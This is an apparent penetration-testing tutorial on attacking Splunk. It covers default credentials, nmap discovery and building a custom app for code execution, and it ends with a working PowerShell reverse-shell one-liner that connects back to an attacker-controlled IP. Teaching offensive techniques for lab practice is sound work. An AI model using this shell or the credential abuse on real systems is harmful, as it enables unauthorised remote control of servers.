 
# Network Monitoring Tools 

## Splunk 

Splunk is a log analytics tool used to gather, analyze and visualize data. Though not originally intended to be a SIEM tool, Splunk is often used for security monitoring and business analytics. Spunk has not suffered from many known vulnerabilities aside from an information disclosure vulnerability (CVE-2018-11409) and an authenticated remote code execution vulnerability in very old versions (CVE-2011-4642). 

The Splunk web server runs by default on **port 8000**. On older versions of Splunk, the default credentials are `admin:changeme`, which are conveniently displayed on the login page. The latest version of Splunk sets credentials during the installation process. We can discover Splunk with a quick Nmap service scan:
```console
zero@pio$ sudo nmap -sV <TARGET>

...
8000/tcp open  ssl/http      Splunkd httpd
8080/tcp open  http          Indy httpd 17.3.33.2830 (Paessler PRTG bandwidth monitor)
8089/tcp open  ssl/http      Splunkd httpd
```

It is not uncommon for system administrators to install a trial of Splunk to test it out, which doesn’t require authentication. Once logged in to Splunk, we can browse data, run reports, create dashboards, install applications from the Splunkbase library, and install custom applications. Splunk has multiple ways of running code, such as server-side Django applications, REST endpoints, scripted inputs, and alerting scripts.

### Abusing Built-In Functionality 

We can use [this](https://github.com/0xjpuff/reverse_shell_splunk) reverse shell for Splunk to help us. To achieve this, we first need to create a custom Splunk application using the following directory structure:
```console
zero@pio$ tree splunk_shell/

splunk_shell/
├── bin
└── default
```

The bin directory will contain any scripts that we intend to run, and the default directory will have our inputs.conf file. Our reverse shell will be a PowerShell one-liner:
```powershell
#A simple and small reverse shell. Options and help removed to save space. 
#Uncomment and change the hardcoded IP address and port number in the below line. Remove all help comments as well.
$client = New-Object System.Net.Sockets.TCPClient('<OUR IP>',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close(
```
